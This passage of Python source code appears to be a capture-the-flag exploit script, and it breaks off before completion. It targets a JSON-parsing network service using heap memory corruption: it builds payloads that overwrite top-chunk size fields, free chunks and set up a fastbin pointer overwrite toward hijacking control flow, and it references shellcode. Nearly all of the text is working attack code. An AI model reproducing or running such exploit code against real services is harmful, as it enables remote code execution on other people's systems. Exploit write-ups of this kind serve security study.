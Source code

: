```plain
    '''
    # breakpoint()
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload




def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
    {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
    '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))


    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)
```